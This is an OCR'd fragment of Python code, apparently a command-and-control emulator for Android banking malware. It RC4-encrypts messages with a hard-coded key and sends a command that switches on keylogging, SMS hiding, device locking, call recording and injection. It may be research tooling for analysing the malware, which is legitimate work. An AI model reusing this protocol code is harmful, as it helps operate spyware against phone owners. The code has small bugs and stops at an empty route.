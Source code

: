 ```python
    out = []
    for char in data:
        x = (x + 1) % 256
        y = (y + box[x]) % 256
        box[x], box[y] = box[y], box[x]
        tmp = hex(char ^ box[(box[x] + box[y]) % 256])[2:]
        if len(tmp) == 1:
            tmp = '0'+tmp
            out.append(tmp)
        else :  
            out.append(tmp)
    return ''.join(out)

global_variable_command = ""
global_variable_response = ""


def decrypting_net(data):   
    key = b"E0NX"
    
    enc_data = bytes.fromhex( base64.b64decode(data).decode('utf-8')  )
    

    decrypted_payload = rc4(key,enc_data)
    print("+----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+")
    print(f"Decrypted Data {decrypted_payload} ")
    print("+----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+")
    global_variable_response = dec_payload
    return decrypted_payload

def encrypt_res(data):
    key = b"E0NX"

    enc_rc4 =  rc4_hex(key,data.encode('utf-8')) 

    payload = enc_rc4
    print(payload)

    payload = base64.b64encode( enc_rc4.encode('utf-8') ).decode('utf-8')

    print("+----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+")
    print(f"Command responding with ::: {data}  " )
    print("+----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+")
    global_variable_command = data

    return payload

#Command = '{"this":"device_no_cmd"}' # cmd 1

Command = '{"this":"device_settings#","hideSMS":"1","lockDevice":"1","offSound":"1","keylogger":"1","lock_record":"1","endless_start":"1","it":"1","nt":"1","ci":"","ki":"","record_call":"1","activeInjection":""}'   # cmd 2





@app.route('/', methods=['POST'])
def success():
```